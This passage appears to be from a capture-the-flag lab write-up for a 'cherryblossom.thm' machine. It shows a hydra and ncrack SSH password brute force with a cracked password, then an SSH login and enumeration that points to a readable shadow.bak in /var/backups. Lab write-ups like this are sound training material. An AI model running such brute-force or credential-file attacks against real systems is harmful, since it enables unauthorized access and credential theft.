**SSH Password Brute Force**

`hydra -l lily -P cherry-blossom.list ssh://cherryblossom.thm -V -f -e ns`

```bash
[22][ssh] host: cherryblossom.thm   login: lily   password: Mr.$un$hin3
```

`ncrack -u lily -P cherry-blossom.list  ssh://cherryblossom.thm`

```bash
[REDACTED] - SAME PASSWORD
```

> **SSH Connection & Enumeration Phase**
> 

`ssh -o MACs=hmac-sha2-256 lily@cherryblossom.thm -p 22`

```bash
lily@cherryblossom.thm's password: 

        #####################################
        ##########  Welcome, Lily  ##########
        #####################################

lily@cherryblossom:~$ whoami
lily
lily@cherryblossom:~$ id
uid=1002(lily) gid=1002(lily) groups=1002(lily)
lily@cherryblossom:~$ pwd
/home/lily
lily@cherryblossom:~$ dpkg --version
Debian 'dpkg' package management program version 1.19.0.5 (amd64).
This is free software; see the GNU General Public Licence version 2 or
later for copying conditions. There is NO warranty.
lily@cherryblossom:~$ uname -a
Linux cherryblossom 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
lily@cherryblossom:~$ cd /var/backups
lily@cherryblossom:/var/backups$ ls -lsa
total 2000
   4 drwxr-xr-x  2 root root      4096 Feb 10  2020 .
   4 drwxr-xr-x 14 root root      4096 Apr 26  2018 ..
  72 -rw-r--r--  1 root root     71680 Feb 10  2020 alternatives.tar.0
   4 -rw-r--r--  1 root root      3338 Feb  9  2020 alternatives.tar.1.gz
   4 -rw-r--r--  1 root root      3016 Feb  9  2020 apt.extended_states.0
   4 -rw-r--r--  1 root root        11 Feb  9  2020 dpkg.arch.0
   4 -rw-r--r--  1 root root        43 Feb  9  2020 dpkg.arch.1.gz
   4 -rw-r--r--  1 root root       280 Feb  9  2020 dpkg.diversions.0
   4 -rw-r--r--  1 root root       160 Feb  9  2020 dpkg.diversions.1.gz
   4 -rw-r--r--  1 root root       265 Apr 26  2018 dpkg.statoverride.0
   4 -rw-r--r--  1 root root       190 Apr 26  2018 dpkg.statoverride.1.gz
1476 -rw-r--r--  1 root root   1510615 Feb  9  2020 dpkg.status.0
 396 -rw-r--r--  1 root root    402441 Feb  9  2020 dpkg.status.1.gz
   4 -rw-------  1 root root       936 Feb  9  2020 group.bak
   4 -rw-------  1 root shadow     771 Feb  9  2020 gshadow.bak
   4 -rw-------  1 root root      2382 Feb  9  2020 passwd.bak
   4 -r--r--r--  1 root shadow    1481 Feb  9  2020 shadow.bak
lily@cherryblossom:/var/backups$ 

```
